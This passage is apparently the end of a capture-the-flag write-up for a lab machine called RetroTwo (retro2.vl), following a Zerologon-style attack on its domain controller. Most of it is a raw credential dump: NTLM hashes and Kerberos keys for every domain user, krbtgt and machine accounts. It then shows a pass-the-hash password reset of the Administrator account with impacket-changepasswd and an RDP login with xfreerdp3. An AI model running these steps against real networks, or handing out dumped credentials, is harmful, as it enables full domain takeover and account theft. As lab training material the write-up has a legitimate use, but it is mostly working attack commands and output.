Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1e242a90fb9503f383255a4328e75756:::
admin:1000:aad3b435b51404eeaad3b435b51404ee:49c31c8f60320b9f416bc248231c008c:::
Julie.Martin:1105:aad3b435b51404eeaad3b435b51404ee:cf4999af837f40d72d1c5bcec27ba9b6:::
Clare.Smith:1106:aad3b435b51404eeaad3b435b51404ee:a7c82ec08414f0c54637fad20b9aac9e:::
Laura.Davies:1107:aad3b435b51404eeaad3b435b51404ee:ee74607fad6d8c51b0d488e322f82317:::
Rhys.Richards:1108:aad3b435b51404eeaad3b435b51404ee:09377f210fdbdcda6f97eda91ddc6879:::
Leah.Robinson:1109:aad3b435b51404eeaad3b435b51404ee:6333c620221c04d8fb5b6d7ca8b6d6d7:::
Michelle.Bird:1110:aad3b435b51404eeaad3b435b51404ee:c823220a9bda3ca70ebe7362187c9004:::
Kayleigh.Stephenson:1111:aad3b435b51404eeaad3b435b51404ee:a78835f0139b3b206f9598fe9c18d707:::
Charles.Singh:1112:aad3b435b51404eeaad3b435b51404ee:432119e62a10aff8c8200e4f45e772a0:::
Sam.Humphreys:1113:aad3b435b51404eeaad3b435b51404ee:3c1508fc774de1e6040c68b41a17fdee:::
Margaret.Austin:1114:aad3b435b51404eeaad3b435b51404ee:c6ebda46b0b014eda3ffcb8d92d179d9:::
Caroline.James:1115:aad3b435b51404eeaad3b435b51404ee:80835fee4ce88524f63a0ecf60870ac0:::
Lynda.Giles:1116:aad3b435b51404eeaad3b435b51404ee:dbf17856bd378ec410c20b98a749571f:::
Emily.Price:1117:aad3b435b51404eeaad3b435b51404ee:9cdf1d59674a6ddfedef2ae2545d3862:::
Lynne.Dennis:1118:aad3b435b51404eeaad3b435b51404ee:4b690295089b91881633113f13c866ee:::
Alexandra.Black:1119:aad3b435b51404eeaad3b435b51404ee:3349f04c2fdcf796a66c37b2a7658ae6:::
Alex.Scott:1120:aad3b435b51404eeaad3b435b51404ee:200155446e3b3817e8bc857dfe01b58c:::
Mandy.Davies:1121:aad3b435b51404eeaad3b435b51404ee:c144842c62c3051b8f1b8467ec62ef1f:::
Marilyn.Whitehouse:1122:aad3b435b51404eeaad3b435b51404ee:097b5b5b97e2a3b07db0b3deac5cd303:::
Lindsey.Harrison:1123:aad3b435b51404eeaad3b435b51404ee:261b8b9c79b19345e8ea15dcdfc03ecd:::
Sally.Davey:1124:aad3b435b51404eeaad3b435b51404ee:78ac830ac29ae1df8fa569b39515d5a5:::
retro2.vl\inventory:1128:aad3b435b51404eeaad3b435b51404ee:46b019644dde01251e7044a3d4185bd1:::
retro2.vl\ldapreader:1130:aad3b435b51404eeaad3b435b51404ee:fe63aaefd1cfd29d7cc5c14321a725f3:::
BLN01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ADMWS01$:1127:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
FS01$:1131:aad3b435b51404eeaad3b435b51404ee:44a59c02ec44a90366ad1d0f8a781274:::
FS02$:1132:aad3b435b51404eeaad3b435b51404ee:eb354224f433cd7cd824b1fdce8c0795:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:1de3d3d429521d8d99e4b4b31da5ce5f993902a8876adaabdd9449a5256c220f
krbtgt:aes128-cts-hmac-sha1-96:8250eee9083a48b1fca675d7d0ce3699
krbtgt:des-cbc-md5:d334438313291520
admin:aes256-cts-hmac-sha1-96:055842e1ada4e1cba5bd0286a4fa9de9337b0324104adc533aabea23ddc353b7
admin:aes128-cts-hmac-sha1-96:1e0f4d9eb0ea70d225db67d53f297934
admin:des-cbc-md5:70d0624397c708df
Julie.Martin:aes256-cts-hmac-sha1-96:5428f080b3303d74da2a344d0b799d97dfb5795fee1d1ed64b3e7e9cc3cbec5c
Julie.Martin:aes128-cts-hmac-sha1-96:8757cfac9fd8af791bd8f5c9b8bfac0c
Julie.Martin:des-cbc-md5:0e85dca2e3e6291a
Clare.Smith:aes256-cts-hmac-sha1-96:65c7c8d4e980f1e63fab4af0fb8b8dc17e9bddff20e7b8bb5fa5c1690561f406
Clare.Smith:aes128-cts-hmac-sha1-96:54cc3c8caadcd6e9b605d2da4c96e55f
Clare.Smith:des-cbc-md5:61fe8f52b39ecb9d
Laura.Davies:aes256-cts-hmac-sha1-96:9ada131aebb330b859770d3177e4b6bf2e37e994d83761e83c296e3dd0549fa4
Laura.Davies:aes128-cts-hmac-sha1-96:c00363c7acdb7e6efb47e90c46eb73f5
Laura.Davies:des-cbc-md5:31d670ec9b16c762
Rhys.Richards:aes256-cts-hmac-sha1-96:805f8d2f3f6c92cbf7bf0fc2449ec03ac8446b0f595aeb68d5e34932bdf1f9a8
Rhys.Richards:aes128-cts-hmac-sha1-96:baeaf7d174ea76419d381e545935aef2
Rhys.Richards:des-cbc-md5:6b0e2cf7ae3de3e3
Leah.Robinson:aes256-cts-hmac-sha1-96:90848db193370cc832b199b27137ef581b78eddc2d5f635a0e01e0b1c514c326
Leah.Robinson:aes128-cts-hmac-sha1-96:6aa30b143db0f0e65517bb062a4fe6c7
Leah.Robinson:des-cbc-md5:d9b6abe30e851f9b
Michelle.Bird:aes256-cts-hmac-sha1-96:a76108bec6385a4469d5eff1d4d5ccaaf066b981d56d3df82f058c1b66b9c653
Michelle.Bird:aes128-cts-hmac-sha1-96:ca9fdc76c484d05397433e90c2d9b84c
Michelle.Bird:des-cbc-md5:79b016e69ec4b59b
Kayleigh.Stephenson:aes256-cts-hmac-sha1-96:6c11e6b4e5e263bbb7b6859b7e4380bf9fce222de2e51da9f033c370d1bd3b34
Kayleigh.Stephenson:aes128-cts-hmac-sha1-96:69ced3d12c16659ae2fdaa2bab6df2f3
Kayleigh.Stephenson:des-cbc-md5:ce7ae949452a1997
Charles.Singh:aes256-cts-hmac-sha1-96:0eb1f6abc867ac77603b9b6f8b454abfef421c6eec2518e28e0e40ee3efb6215
Charles.Singh:aes128-cts-hmac-sha1-96:3cee7675dd2615a5214127faacb30930
Charles.Singh:des-cbc-md5:9125dcd6d3ad4fb6
Sam.Humphreys:aes256-cts-hmac-sha1-96:878ea36ddce6a9e5b050021e757669ff94b8b3367bcb9461dc83cdbcc1342b77
Sam.Humphreys:aes128-cts-hmac-sha1-96:102e420c74d34cda602282342c555b72
Sam.Humphreys:des-cbc-md5:5b5bc1a8683816c4
Margaret.Austin:aes256-cts-hmac-sha1-96:500b6f66a68c384b76ee63fb2d309278638c4eaa2903a7555b7f0a63ed2da30e
Margaret.Austin:aes128-cts-hmac-sha1-96:2bb2066bea0481bf7c9fae65a908bb64
Margaret.Austin:des-cbc-md5:077f91679bcb6dda
Caroline.James:aes256-cts-hmac-sha1-96:0ddabfe9574396df083878375b0e7100c4466698a1d0fa812a07b0bc17f44583
Caroline.James:aes128-cts-hmac-sha1-96:574766e01691af43749a8c0cc566af0f
Caroline.James:des-cbc-md5:29574998cd13f813
Lynda.Giles:aes256-cts-hmac-sha1-96:dc9ca6bdfd27960e9c5700864e0fec0a388f903747d79c61d773cc6e24ea2253
Lynda.Giles:aes128-cts-hmac-sha1-96:c2eaf2f31cb78d18ac51c1c8b0cd496d
Lynda.Giles:des-cbc-md5:62b9082f6e1ab92a
Emily.Price:aes256-cts-hmac-sha1-96:37d0c3e846f44b0c0afe005b178c1e2689ab8cf227c60345e4d83af3bedcd908
Emily.Price:aes128-cts-hmac-sha1-96:87331a1b619dc0b817a00bd7882973b3
Emily.Price:des-cbc-md5:d592c7dce0386489
Lynne.Dennis:aes256-cts-hmac-sha1-96:ec46f167dac2f0763fa4891b4ec7204e8b791b6e757b88f13eaf0a3069d91520
Lynne.Dennis:aes128-cts-hmac-sha1-96:a6de42302e21936f728c6340cc3924b4
Lynne.Dennis:des-cbc-md5:2337fe088083d561
Alexandra.Black:aes256-cts-hmac-sha1-96:63e7bcd8c3827fafac984927c8ee7a410644603b87df03a73d93a5d83d351199
Alexandra.Black:aes128-cts-hmac-sha1-96:f7f77113ff7a8e070f8d961a973afa80
Alexandra.Black:des-cbc-md5:70dcdcef4a584c67
Alex.Scott:aes256-cts-hmac-sha1-96:56e28035bf0e773b08eac63f2ded3b77150f4662335fecfe0d167439954c3c6c
Alex.Scott:aes128-cts-hmac-sha1-96:1743a9bfda5a6d4937e10833aa94261a
Alex.Scott:des-cbc-md5:c47a9e6475452f7c
Mandy.Davies:aes256-cts-hmac-sha1-96:f9ab0b0127d819088c6e20f2a22b62e658e65413634a982e7a03029860b5fbbb
Mandy.Davies:aes128-cts-hmac-sha1-96:775c402ad1b82a01d00d24cdce2f0cff
Mandy.Davies:des-cbc-md5:0dcb62cd49a4070b
Marilyn.Whitehouse:aes256-cts-hmac-sha1-96:070d0ec84b01cee1f4e6f7fde70978e38dd06e9718d29165f7b34687f2bfc57d
Marilyn.Whitehouse:aes128-cts-hmac-sha1-96:983446f761745cac59cfdf6533be1e62
Marilyn.Whitehouse:des-cbc-md5:b34fad80d6583d52
Lindsey.Harrison:aes256-cts-hmac-sha1-96:df8a640121c7931e4b1e24a903831bbdb2ceca342bc32df0d642be5ad59aebaa
Lindsey.Harrison:aes128-cts-hmac-sha1-96:9c0600e456143cb3a958434295e230c5
Lindsey.Harrison:des-cbc-md5:df4afde6a83d586d
Sally.Davey:aes256-cts-hmac-sha1-96:ad994860516e89a93515d9934fbc92ae0e18ac10a4179ce0b5e856d21239c07d
Sally.Davey:aes128-cts-hmac-sha1-96:1bd25ea0251be749c0b9ff10c0443728
Sally.Davey:des-cbc-md5:8940a2cde9fb45f1
retro2.vl\inventory:aes256-cts-hmac-sha1-96:251d2610ccb122fbefecbc0bad2a0f1ecffe39e48734d40fc31f9d6c32d9c3a6
retro2.vl\inventory:aes128-cts-hmac-sha1-96:6a4787b610d341b0d99758c8dd80a405
retro2.vl\inventory:des-cbc-md5:ad08041f6b0861a7
retro2.vl\ldapreader:aes256-cts-hmac-sha1-96:1f38605e159b9f10ba465530aa4ea2d9fd5429b3bf348fa8559b5acc647c0b32
retro2.vl\ldapreader:aes128-cts-hmac-sha1-96:000256e0522cc3cd2f52c6bfe1698368
retro2.vl\ldapreader:des-cbc-md5:8908762379fdfdae
BLN01$:aes256-cts-hmac-sha1-96:ffd22246332c76f0831bbae3acbcf7d9160e780f77ecbf6322ec536b8744a280
BLN01$:aes128-cts-hmac-sha1-96:00489881457ca7f5ba4dac2e1395fd44
BLN01$:des-cbc-md5:0886138c15a70157
ADMWS01$:aes256-cts-hmac-sha1-96:9e03f40af4db407eda8acfcb27ee9db4883a8921838aaeee35aff140ed68b7ce
ADMWS01$:aes128-cts-hmac-sha1-96:dea4deadd8badee9d2720f1619a96479
ADMWS01$:des-cbc-md5:2cc74a1c04c4649b
FS01$:aes256-cts-hmac-sha1-96:c2d3478014ac16cda2a093ffa710f57939ea47c022aa0bd4cec840b2fc313b42
FS01$:aes128-cts-hmac-sha1-96:260e51b22e8694ed4c8d229bb3f18aeb
FS01$:des-cbc-md5:85df2686e95bdf92
FS02$:aes256-cts-hmac-sha1-96:fcceafa1335a9e262a1e4532d516011d4e8b80ae7f35fb35714a2a6410db18bc
FS02$:aes128-cts-hmac-sha1-96:5f2c27f494ab454d875057c909790e3e
FS02$:des-cbc-md5:252afd385b04b0bf
[*] Cleaning up... 
```

## Domain Admin - RDP as Administrator

we got  all the users NTLM hash now we can access the rdp of the administrator , ( i wasnt able to use authenticate with null password i am not sure why is that so i would ) change the password of the administrator with new one and rdp as the administrator

```bash
┌──(penguin㉿0X0F)-[~/OSCP/RetroTwo/CVE-2020-1472]
└─$ impacket-changepasswd 'retro2.vl/Administrator@10.129.98.205' -hashes :c06552bdb50ada21a7c74536c231b848 -newpass 'Password@123!'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of retro2.vl\Administrator
[*] Connecting to DCE/RPC as retro2.vl\Administrator
[*] Password was changed successfully.
```

now we can authenticate as administrator using `xfreerdp3`
```bash
xfreerdp3 /v:10.129.98.205 /u:Administrator /d:retro2.vl /cert:ignore /sec:rdp
```



